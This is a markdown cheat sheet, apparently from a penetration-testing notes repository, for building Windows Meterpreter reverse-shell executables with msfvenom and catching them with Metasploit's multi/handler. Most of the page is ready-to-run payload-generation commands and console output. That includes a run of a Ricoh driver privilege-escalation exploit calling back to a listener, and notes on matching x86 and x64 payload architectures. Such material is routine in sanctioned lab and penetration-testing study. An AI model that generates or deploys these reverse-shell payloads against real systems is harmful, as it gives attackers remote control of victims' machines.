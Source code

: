 [MSFVenom - CheatSheet
 by hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)

[MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter by infinitelogins)](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

### Syntax
```
msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>
```

### Common
```
myip=127.0.0.1

msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=1234 -f exe -o rev.exe
```

### Capture 32 vs 64 bit (exploit/multi/handler)
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp

# or

set payload windows/x64/meterpreter/reverse_tcp
```

### Examples 
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >

msf6 exploit(multi/handler) > grep yes options
   LHOST                   yes       The listen address (an interface may be specified)                                              
   LPORT  4444             yes       The listen port
```

```
msfvenom -l payloads
```

```
msfvenom -l payloads |
```

## Common Mistake

### The payload should use the same architecture as the target driver
```
msf6 exploit(windows/local/ricoh_driver_privesc) > run 

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[-] Exploit aborted due to failure: bad-config: The payload should use the same architecture as the target driver
[*] Deleting printer 
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ricoh_driver_privesc) >
```
### 
```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=1234 -a x64 -f exe -o rev64.exe           
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Error: The selected arch is incompatible with the payload
```

### 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=$myip lport=6464 -a x64 -f exe -o r64.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: r64.exe
```

### 
```
$ file r*     
r32.exe: PE32 executable (GUI) Intel 80386, for MS Windows, 4 sections
r64.exe: PE32+ executable (GUI) x86-64, for MS Windows, 3 sections
```

### 
```

```
